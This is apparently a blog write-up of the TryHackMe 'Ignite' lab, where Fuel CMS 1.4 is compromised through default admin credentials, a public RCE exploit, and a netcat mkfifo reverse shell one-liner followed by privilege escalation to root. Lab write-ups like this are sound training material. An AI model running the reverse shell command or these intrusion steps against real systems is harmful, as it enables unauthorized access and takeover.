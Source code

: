 ```yaml
---
title: "TryHackMe - Ignite"
author: Nasrallah
description: ""
date: 2022-03-21 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, rce, exploit]
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello l33ts, I hope you are doing well. Today we are going to look at [Ignite](https://tryhackme.com/room/ignite) from [TryHackMe](https://tryhackme.com), and easy machine where we find a CMS vulnerable to RCE, we use an exploit to help us get a reverse shell on the machine, then we look through the CMS files to find a plain text password of root.

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressice scan to provide faster results.

```terminal
Nmap scan report for 10.10.89.94
Host is up (0.11s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Welcome to FUEL CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry
|_/fuel/
```

We only have port 80 open, and there is a robots.txt file, let's run a directory scan while we go check the webpage.

## WebPage

Let's navigate to the webpage.

![webpage](/assets/img/tryhackme/ignite/igniteweb.png)

We have Fuel CMS with version 1.4 running on the webserver. There is nothing else, let's check what we got from the directory scan.

## Gobuster

```terminal
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.239.131/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 292]
/.htaccess            (Status: 403) [Size: 297]
/.htpasswd            (Status: 403) [Size: 297]
/@                    (Status: 400) [Size: 1134]
/0                    (Status: 200) [Size: 16597]
/assets               (Status: 301) [Size: 315] [--> http://10.10.239.131/assets/]
/home                 (Status: 200) [Size: 16597]                                 
/index                (Status: 200) [Size: 16597]                                 
/index.php            (Status: 200) [Size: 16597]                                 
/lost+found           (Status: 400) [Size: 1134]                                  
/offline              (Status: 200) [Size: 70]                                    
/robots.txt           (Status: 200) [Size: 30]                                    
/server-status        (Status: 403) [Size: 301]                                   
===============================================================
```

Let's navigate to **/robots.txt**.

![robts](/assets/img/tryhackme/ignite/robots.png)

There is 1 disallowed entry, **/fuel**, let's see what there.

![login](/assets/img/tryhackme/ignite/loginpage.png)

We found a login page for **fuelcms**, let's see if we can get in by submitting some knows credentials.

![panle](/assets/img/tryhackme/ignite/panel.png)

I managed to login using **admin:admin**

Let's check if there is any exploit for this version of fuel cms.

![exploit](/assets/img/tryhackme/ignite/ignitexploitdb.png)

We found 3 RCE exploit, let's download one of the exploit and try run some commands. I will be using this [exploit](https://www.exploit-db.com/exploits/50477).

# **Foothold**

Let's run the exploit now.

![rce](/assets/img/tryhackme/ignite/rce.png)

We are able now to execute code on the machine, let's get a proper shell.

First, setup a listener on your attacking machine(`nc -lnvp 9001`) and execute the following command on the RCE prompt `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.10.10 9001 >/tmp/f`

>NOTE: Change the ip address on the command

![rce](/assets/img/tryhackme/ignite/mkfifo.png)

![rce](/assets/img/tryhackme/ignite/shell.png)

I used the python import pty trick to stabilize my shell.

# **Privilege Escalation**

For Privilege Escalation, i uploaded linpeas to the machine to do the scan for me.

![wget](/assets/img/tryhackme/ignite/wget.png)

Let's run the script and see what it will find.

![rootpass](/assets/img/tryhackme/ignite/rootpass.png)

There is a root password in plain text in one of the file of the application. Let's see if it works.

![root](/assets/img/tryhackme/ignite/root.png)

Great! The password worked and we got root access.

---

Thank you for taking the time to read my writeup, I hope you have learned something with this, if you have any questions or comments, please feel free to reach out to me. See you in the next hack :) .

